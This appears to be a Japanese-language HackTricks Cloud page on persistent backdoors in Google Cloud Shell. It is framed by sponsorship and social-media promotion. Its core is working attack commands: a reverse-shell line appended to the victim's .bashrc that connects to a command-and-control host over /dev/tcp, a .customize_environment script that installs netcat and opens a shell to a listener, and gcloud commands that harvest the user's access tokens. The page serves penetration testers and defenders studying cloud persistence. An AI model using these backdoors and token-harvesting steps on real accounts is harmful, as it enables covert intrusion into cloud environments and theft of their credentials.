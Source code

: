 # GCP - Cloud Shell 永続性

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**にPRを提出してハッキングのコツを共有する [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;githubリポジトリ。

</details>

## Cloud Shell

詳細については、以下をチェックしてください:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的バックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/)は、ブラウザから直接、追加コストなしでクラウドリソースへのコマンドラインアクセスを提供します。

GoogleのCloud Shellには、**ウェブコンソール**から、または**`gcloud cloud-shell ssh`**を実行してアクセスできます。

このコンソールには攻撃者にとって興味深い機能がいくつかあります:

1. **Google Cloudへのアクセス権を持つ任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントでも、組織のオーナーであっても可能です）。
2. 当該インスタンスは、活動がない場合でも少なくとも120日間はホームディレクトリを維持します。
3. 組織がそのインスタンスの活動を監視する機能は**ありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを仕掛け、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアが生き残り、攻撃者が実行するたびにシェルを取得できることを意味します。次のようにして:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには、**`.customize_environment`** という別のファイルがあり、存在する場合、ユーザーが**cloud shell**にアクセスする**毎回実行されます**（前述のテクニックのように）。前のバックドアを挿入するか、以下のようなものを挿入して、ユーザーが"頻繁に"cloud shellを使用する限り、永続性を維持します：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Cloud ShellでGCPアクションを初めて実行する際に認証が必要な場合**、コマンドが実行される前にユーザーのブラウザに認証ウィンドウが**ポップアップ**します。予期せぬポップアップが表示されると、ターゲットが疑念を抱き、持続性の方法を潰す可能性があります。

これは、攻撃者としてcloud shellから`gcloud projects list`を実行した際に、ユーザーセッションのブラウザで表示されるポップアップです。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

しかし、ユーザーが積極的にcloudshellを使用している場合、ポップアップは表示されず、次の方法でユーザーのトークンを**収集できます**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続が確立される方法

基本的に、以下の3つのAPIコールが使用されます：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST]（ローカルで作成した公開鍵を追加します）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST]（インスタンスの起動を行います）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET]（Google Cloud ShellのIPを教えてくれます）

しかし、さらに詳しい情報は[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)で見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローしてください。**
* **あなたのハッキングのコツを** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) にPRを提出して共有してください。
*
*
* &#x20;githubリポジトリ。

</details>
